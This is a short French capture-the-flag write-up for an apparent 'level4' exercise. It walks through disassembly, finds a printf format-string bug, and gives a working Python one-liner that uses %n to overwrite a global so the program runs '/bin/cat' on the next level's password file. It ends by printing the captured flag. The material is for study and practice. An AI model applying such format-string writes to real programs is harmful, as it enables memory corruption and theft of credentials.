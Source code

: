 Dans ce niveau quand on ```disas main``` on voit que main call ```n``` et lui call ```p``` a son tour

Dans la fonction ```n``` on voit un appel system a ```"/bin/cat /home/user/level5/.pass"``` apres le retour de ```p```

```sh
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
```

Et dans la fonction ```p``` il y a un appel a ```printf(buffer)``` qu'on va exploiter

On vise donc cette comparison pour arriver a l'appel system ```0x08048492 <+59>:	cmp    $0x1025544,%eax```

Il faut chercher on se trouve notre input ```AAAA %x %x %x %x %x %x %x %x %x %x %x %x```:
    ```AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141```

Il est donc a la 12eme place dans la memoire avec ```41414141```

On va chercher a mettre ```0x1025544 = 16930116 en decimal``` a cette adresse ```0x8049810```

Ce script va nous le permettre: ```(python -c 'print "\x10\x98\x04\x08" + "%16930112c%12$n"') | ./level4```

On ecrit ```16930116 - 4 = 16930112``` caracteres avec la valeur a cette adresse ```\x10\x98\x04\x08``` au 12eme emplacement

Le flag s'affiche apres la redaction des caracteres: ```0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a```